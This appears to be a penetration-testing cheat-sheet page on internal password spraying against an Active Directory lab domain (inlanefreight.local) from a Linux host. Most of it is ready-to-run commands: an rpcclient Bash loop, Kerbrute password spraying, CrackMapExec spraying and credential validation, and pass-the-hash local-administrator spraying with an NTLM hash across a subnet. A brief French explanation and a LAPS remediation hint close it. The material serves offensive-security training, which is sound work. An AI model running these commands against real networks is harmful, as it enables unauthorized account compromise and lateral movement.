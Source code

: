 # Internal Password Spraying - from Linux

***

### <mark style="color:red;">Internal Password Spraying from a Linux Host</mark>

<mark style="color:green;">**Using a Bash one-liner for the Attack**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
{% endcode %}

We can also use `Kerbrute` for the same attack as discussed previously.

<mark style="color:green;">**Using Kerbrute for the Attack**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

```
{% endcode %}

<mark style="color:green;">**Using CrackMapExec & Filtering Logon Failures**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
{% endcode %}

After getting one (or more!) hits with our password spraying attack, we can then use `CrackMapExec` to validate the credentials quickly against a Domain Controller.

<mark style="color:green;">**Validating the Credentials with CrackMapExec**</mark>

{% code fullWidth="true" %}
```shell-session
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```
{% endcode %}

***

### <mark style="color:red;">Local Administrator Password Reuse</mark>

Le **password spraying interne** consiste à tester un **même mot de passe (ou hachage NTLM)** sur plusieurs machines.\
Comme les administrateurs locaux réutilisent souvent le même mot de passe, un attaquant peut exploiter cette faiblesse avec des outils comme **CrackMapExec**, qui permettent de vérifier de nombreux systèmes sans bloquer les comptes.

<mark style="color:green;">**Local Admin Spraying with CrackMapExec**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
{% endcode %}

{% hint style="danger" %}
&#x20;One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.
{% endhint %}
